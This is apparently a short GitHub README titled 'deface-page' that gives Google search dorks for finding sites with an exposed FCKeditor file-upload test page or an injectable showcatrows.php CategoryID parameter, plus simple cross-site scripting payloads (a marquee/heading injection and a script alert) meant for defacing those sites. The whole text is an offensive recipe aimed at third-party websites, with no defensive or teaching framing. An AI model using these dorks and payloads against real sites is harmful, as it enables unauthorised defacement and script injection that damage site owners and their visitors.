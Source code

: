 # deface-page
some deface page 

Dork : 

inurl:"frame=product_detail"

exploit site :

target.com/jscripts/FCKeditor/editor/filemanager/upload/test.html


xss : cross site scripting

Dork :

inurl:"/showcatrows.php?CategoryID="

"><marquee><h1>Your text</h1></mmarque

Search Site And Add This Xss Dork <script>alert("Xss")</script>
